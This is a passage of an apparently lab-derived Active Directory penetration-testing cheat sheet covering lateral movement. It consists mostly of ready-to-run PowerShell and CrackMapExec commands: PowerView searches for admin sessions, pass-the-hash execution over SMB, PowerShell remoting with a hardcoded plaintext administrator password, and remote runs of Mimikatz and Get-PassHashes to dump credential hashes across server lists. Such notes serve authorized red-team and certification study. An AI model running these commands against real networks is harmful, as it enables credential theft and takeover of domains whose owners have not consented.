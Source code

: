     ```

### Lateral Movement

    ```powershell
    # Check for access on other computers using current users session
    # Find all machines on the current domain where the current user has local admin access

    Find-LocalAdminAccess -Verbose ## Local admin user

    # Find computers where a domain admin (or specified user/group) has sessions
    Invoke-UserHunter
    Invoke-UserHunter -GroupName "RDPUsers"

    # To confirm admin access
    Invoke-UserHunter -CheckAccess
    Invoke-UserHunter -CheckAccess -Verbose

    # Find computers where a domain admin is logged-in

    Invoke-UserHunter -Stealth

    Find-WMILocalAdminAccess.ps1
    Find-PSRemotingLocalAdminAccess.ps1
    cme smb <COMPUTERLIST> -d <DOMAIN> -u <USER> -H <NTLM HASH>
    cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> -X <COMMAND>


    # Use WMI for remote session
    Get-WmiObject -Class win32_operatingsystem -ComputerName us-dc.us.techcorp.local

    # Create PS Session 
    $usmgmt = New-PSSession -ComputerName us-mgmt
    Enter-PSSession $usmgmt

    $passwd = ConvertTo-SecureString 't7HoBF+m]ctv.]' -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential ("us-mailmgmt\administrator", $passwd)
    $mailmgmt = New-PSSession -ComputerName us-mailmgmt -Credential $creds
    Enter-PSSession $mailmgmt

    # Invoke Command using Powershell Remoting
    Invoke-Command -Scriptblock {Get-Process} -Session $usmgmt
    Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list-of-server>)
    Invoke-Command -FilePath C:\scripts\Get-PassHases.ps1 -ComputerName (Get-Content <list-of-server>)
    Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $mailmgmt
    Invoke-Command -Scriptblock ${function:Get-PassHashes} -ComputerName (Get-Content <list-of-server>)
    Invoke-Command -Scriptblock ${function:Get-PassHashes} -ComputerName (Get-Content <list-of-server>) -ArgumentList
